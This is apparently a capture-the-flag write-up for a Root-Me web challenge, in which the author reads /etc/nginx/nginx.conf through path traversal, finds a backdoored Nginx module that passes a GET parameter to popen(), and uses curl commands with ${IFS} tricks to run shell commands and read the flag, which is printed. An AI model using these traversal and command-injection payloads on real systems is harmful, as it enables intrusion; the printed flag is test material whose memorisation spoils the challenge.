


Description:

The trainee made a weird commit that’s flooding the server with requests—and eventually blocking connections. We’re hinted that something strange is lurking in their Nginx setup.
As soon as we connect we have a file reader form. I stared with a whatweb

With this we know the backend runs a Nginx 1.24.0. I tried to research for a file like a file.txt, example.txt localhost and /etc/nginx because of what could be a nginx misconfiguration.
I tried then a normal path traversal because was the most coherent and no brainer exploit in this case.

And luckily I saw right.

Digging through /etc/nginx/nginx.conf I eventually ran into:

As we can see we there is a endpoint introduced by the trainee
/Th1s_3ndp0int_1s_S3cr3t
Visiting that endpoint carved out from the trainee’s module gave me the source path:
/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c
And when I visited the endpoint I found a file with 2 imporant lines:
ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
and
fp = popen(command, "r");
If you send a GET parameter named r00t-m3.backd0or, its value is fed straight into popen().
First RCE test with id
curl -G 'http://node2.challenges.ctf20k.root-me.org:31669/Th1s_3ndp0int_1s_S3cr3t' \
--data-urlencode 'r00t-m3.backd0or=id'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
After that, i tried to explore a lil bit like:
r00t-m3.backd0or=echo${IFS}$(ls)
r00t-m3.backd0or=echo${IFS}$(ls${IFS}../)
And i stumbled upon this file
/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d
And with a Curl
curl 'http://node3.challenges.ctf20k.root-me.org:34394/Th1s_3ndp0int_1s_S3cr3t?\
r00t-m3.backd0or=cat${IFS}</flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d'
And here is the flag
RM{My_Tr4inee_B4ckd00r_My_Ng1nx}